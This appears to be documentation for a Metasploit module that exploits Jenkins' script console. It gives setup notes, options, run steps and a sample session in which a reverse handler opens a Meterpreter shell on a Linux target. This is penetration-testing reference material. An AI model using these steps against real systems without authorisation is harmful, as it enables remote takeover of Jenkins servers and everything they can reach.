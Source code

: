 ## Vulnerable Application

  Jenkins can be downloaded from [jenkins.io](https://jenkins.io/) where
  binaries are available for a variety of operating systems. Both LTS and weekly
  builds are available.

  Default settings have the script console enabled and require a valid user
  account on order to access it. A known account can be used with this module by
  setting the `USERNAME` and `PASSWORD` options.

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST [target host]```
  1. Do: ```set TARGET [target id]```
  1. Do: ```exploit```
  1. You should get a shell.

## Options

  **PASSWORD**

  A password to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

  **TARGETURI**

  The path to the target instance of Jenkins.

  **USERNAME**

  A username to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

## Scenarios

  Example usage against a Linux target server.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf  exploit(jenkins_script_console) > set RHOST 192.168.1.154
  msf  exploit(jenkins_script_console) > set TARGET 1
  msf  exploit(jenkins_script_console) > exploit
  [*] Reloading module...

  [*] Started reverse handler on 192.168.1.128:4444
  [*] Checking access to the script console
  [*] No authentication required, skipping login...
  [*] 192.168.1.154:8080 - Sending Linux stager...
  [*] Transmitting intermediate stager for over-sized stage...(100 bytes)
  [*] Sending stage (1126400 bytes) to 192.168.1.154
  [*] Meterpreter session 12 opened (192.168.1.128:4444 -> 192.168.1.154:46726) at 2013-01-20 13:37:06 +0100
  [!] Deleting /tmp/IVVrDu payload file

  meterpreter > sysinfo
  Computer     : ubuntu
  OS           : Linux ubuntu 2.6.32-38-generic #83-Ubuntu SMP Wed Jan 4 11:13:04 UTC 2012 (i686)
  Architecture : i686
  Meterpreter  : x86/linux
  ```

